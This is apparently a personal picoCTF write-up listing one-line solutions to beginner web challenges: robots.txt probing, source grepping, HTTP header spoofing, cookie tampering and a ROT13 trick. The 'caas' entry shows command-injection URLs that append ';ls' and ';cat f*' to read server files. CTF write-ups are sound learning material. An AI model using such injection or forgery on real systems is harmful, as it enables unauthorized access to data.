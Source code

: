 # :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

# :female_detective: - Insp3ct0r - `18`
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_insp3ct0r.sh)

# :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

# :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

# :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

# :carrot: - Mod 26 - `144`
```sh
# ROT13
$ echo _ | tr 'n-za-mN-ZA-M' 'a-zA-z'

# or alternatively
$ echo _ | tr "A-Za-z" "N-ZA-Mn-za-m"

```

# :accept: - Some Assembly Required 1 - `152`
###### hint: path in script

# :hungary: - scavenger hunt - `161`
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_scavenger_hunt.sh)

###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

# :snake: - Python Wrangling - `166`
```scala
$ wget _ _ _ && cat pw.txt | python3 ende.py -d flag.txt.en
```

# :baseball: - login - `200`
###### hint: base64

# :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)

# :rainbow_flag: - wave a flag - `170`
```sh
$ strings warm | grep pico
```
